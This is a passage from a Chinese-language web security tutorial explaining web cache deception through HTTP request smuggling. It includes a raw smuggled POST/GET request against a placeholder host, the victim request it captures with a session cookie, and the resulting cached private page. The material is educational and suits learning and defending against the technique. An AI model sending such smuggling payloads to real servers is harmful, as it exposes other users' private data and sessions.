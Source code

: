 [![](assets/1704418275-3376a753a030baf9bf06016d6fbccf2d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161820-a7a243fe-aa10-1.png)

### 缓存欺骗

在上述的上述的攻击变种中，您可以利用HTTP请求走私来执行Web缓存欺骗，这与Web缓存中毒攻击的工作方式类似，但目的不同

-   在Web缓存中毒中，攻击者使应用程序在缓存中存储一些恶意内容，这些内容从缓存提供给其他应用程序用户
-   在Web缓存欺骗中，攻击者使应用程序将属于另一个用户的一些敏感内容存储在缓存中，然后攻击者从缓存中检索这些内容

在这种变体中攻击者走私一个返回一些敏感的用户特定内容的请求，例如：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

转发到后端服务器的来自另一个用户的下一个请求将被附加到走私的请求中，包括会话cookies和其他头，例如：

```plain
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

后端服务器以正常方式响应这个请求，请求中的URL用于用户的私人消息，请求在受害用户会话的上下文中处理，前端服务器根据它认为是第二个请求中的URL(即/static/some-image.png)缓存此响应

```plain
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```
